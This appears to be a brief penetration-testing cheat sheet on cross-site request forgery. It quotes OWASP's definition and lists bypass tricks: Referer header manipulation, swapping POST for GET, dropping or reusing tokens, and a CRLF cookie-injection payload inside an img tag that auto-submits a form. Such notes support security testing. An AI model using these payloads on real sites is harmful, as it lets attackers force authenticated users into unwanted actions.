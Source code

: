 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## Test first:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```js
Referrer-Policy: unsafe-url
```
"Invalid referrer validation" so:
```html
<meta name="referrer" content="no-referrer">
```
else:
csrf without csrf protection - EZ
csrf validation depends on request method  - Change post to get
csrf delete csrf parameter
csrf - drop request and test the token in other session 
csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
